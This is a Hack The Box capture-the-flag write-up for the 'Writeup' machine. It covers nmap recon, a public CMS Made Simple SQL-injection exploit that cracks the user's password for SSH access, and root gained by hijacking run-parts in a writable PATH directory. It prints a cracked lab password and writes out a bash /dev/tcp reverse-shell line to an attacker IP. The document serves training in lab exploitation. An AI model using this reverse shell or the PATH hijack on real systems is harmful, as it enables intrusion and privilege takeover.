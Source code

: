 ```yaml
---
title: "Hack The Box - Writeup"
author: Ryan Kozak
layout: post
permalink: /hack-the-box-writeup-4-writeup/
categories:
  - CTF Writeup
  - Security
tags:
  - CTF
  - Hack The Box
  - Linux
  - Privilege Escalation
  - PHP
  - CMS Made Simple
---
```

![Hack The Box Writeup](/wp-content/uploads/2019/07/writeup/badge.png)


# Information Gathering

## Nmap
We begin our reconnaissance by running an Nmap scan checking default scripts and testing for vulnerabilities.

```console
root@kali:/media/sf_Research# nmap -sVC 10.10.10.138
Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-17 20:23 EDT
Nmap scan report for 10.10.10.138
Host is up (0.37s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry
|_/writeup/
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.22 seconds
```

From the above output we can see that ports, **22** and **80** are the only ports open. It also appears as though there's a `robots.txt` file disallowing a directory called `/writeup` on the web server.


```console
root@kali:/media/sf_Research# curl http://10.10.10.138/robots.txt
#              __
#      _(\    |@@|
#     (__/\__ \--/ __
#        \___|----|  |   __
#            \ }{ /\ )_ / _\
#            /\__/\ \__O (__
#           (--/\--)    \__/
#           _)(  )(_
#          `---''---`

# Disallow access to the blog until content is finished.
User-agent: *
Disallow: /writeup/
```

![Index of port 80](/wp-content/uploads/2019/07/writeup/main_80.png)


Running some directory enumeration tools on the main web port didn't turn up anything interesting. The page indicates that the site isn't ready yet, but contains various articles on Hack The Box writeups. When we navigate to the `/writeup` directory we see that this is where the CMS root directory is located.

![/writeup running directory CMS Made Simple](/wp-content/uploads/2019/07/writeup/cms.png)


We can determine that the site is running [CMS Made Simple](https://www.cmsmadesimple.org/). This can be done by checking the source code, but in my case the Firefox extension [Webappalyzer](https://www.wappalyzer.com/) indicated such. After browsing unauthenticated exploits for the CMS we come across one that works perfectly [https://www.exploit-db.com/exploits/46635](https://www.exploit-db.com/exploits/46635).


# Exploitation  

In order to gain our initial foothold we execute the exploit with the `rockyou.txt` worldlist in order for it to crack the hashed password.

```console
root@kali:~/Desktop# python cmsmadesimple22-sql.py -u http://10.10.10.138/writeup --crack -w /usr/share/wordlists/rockyou.txt

[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9
```

While some users on the forum indicated the need to adjust their system time in order for this exploit to function, I did not have to do anything of that nature. The exploit returned the above the first time it was run, and then again when I rerooted the box for the purposes of this writeup.

The username and password did not provide access to the backend of the CMS. They do, however, provide us ssh access to the box.

## User Flag

In order to get the user flag, we simply need to ssh into the box and move to the home directory of the `jkr` user.

```
jkr@10.10.10.138's password:
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jun 20 19:17:35 2019 from 10.10.14.157
jkr@writeup:~$ pwd
/home/jkr
jkr@writeup:~$ ls -la
total 72
drwxr-xr-x 2 jkr  jkr   4096 Jun 20 19:10 .
drwxr-xr-x 3 root root  4096 Apr 19 04:14 ..
-r--r--r-- 1 root root    33 Apr 19 08:43 user.txt
jkr@writeup:~$ cat user.txt
d4e493fd4068afc9eb1aa6a55319f978
```

## Root Flag

The privilege escalation for this box was not as immediately apparent to me as it was on SwagShop. Running [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration) did not return anything very useful for me. Some users on the forum indicated using a tool called [Pspy](https://github.com/DominicBreuker/pspy). This tool allows us to "Monitor Linux processes without root permissions". After running this script for a while something interesting appears when other users access the box via ssh.

![output from pyspy](/wp-content/uploads/2019/07/writeup/pyspy.png)


The `PATH` variable contains a directory `/usr/local/sbin` as its first priority.

```console
jkr@writeup:~$ cd /usr/local/
jkr@writeup:/usr/local$ ls -la
total 64
drwxrwsr-x 10 root staff  4096 Apr 19 04:11 .
drwxr-xr-x 10 root root   4096 Apr 19 04:11 ..
drwx-wsr-x  2 root staff 20480 Apr 19 04:11 bin
drwxrwsr-x  2 root staff  4096 Apr 19 04:11 etc
drwxrwsr-x  2 root staff  4096 Apr 19 04:11 games
drwxrwsr-x  2 root staff  4096 Apr 19 04:11 include
drwxrwsr-x  4 root staff  4096 Apr 24 13:13 lib
lrwxrwxrwx  1 root staff     9 Apr 19 04:11 man -> share/man
drwx-wsr-x  2 root staff 12288 Apr 19 04:11 sbin
drwxrwsr-x  7 root staff  4096 Apr 19 04:30 share
drwxrwsr-x  2 root staff  4096 Apr 19 04:11 src
```

As we see above, we also have access to write to and execute scripts from the `/usr/local/sbin` directory. This means that we can create our own `run-parts` to execute other scripts as root. So lets do that.


First we create a script to call our reverse shell, because adding the reverse shell directly to `run-parts` didn't seem to be doing the trick.

```console
jkr@writeup:/usr/local/sbin$ nano shelly.sh && chmod +x shelly.sh
```

Here is what `shelly.sh` contains.

```bash
#!/bin/sh  
bash -i >& /dev/tcp/10.10.14.52/4444 0>&1
```

Next we actually create the `run-parts` script within `/usr/local/sbin` so that it calls `shelly.sh`

```console
jkr@writeup:/usr/local/sbin$ nano run-parts && chmod +x run-parts
```

When we ssh in again from another terminal, we'll get our reverse shell with root privileges.

![tmux screenshot of achieving root privileges](/wp-content/uploads/2019/07/writeup/rooted.png)


# Conclusion

Writeup was a quick and easy box. The initial exploit for the CMS was really fun to watch run, as others have said it felt like The Matrix. After that, the privilege escalation had me a little stumped until I heard about pyspy, then it was fairly easy since the `PATH` variable stuck out like a soar thumb. It was still fun to figure out how to exploit that after discovery though, and getting the root shell was rather satisfying.
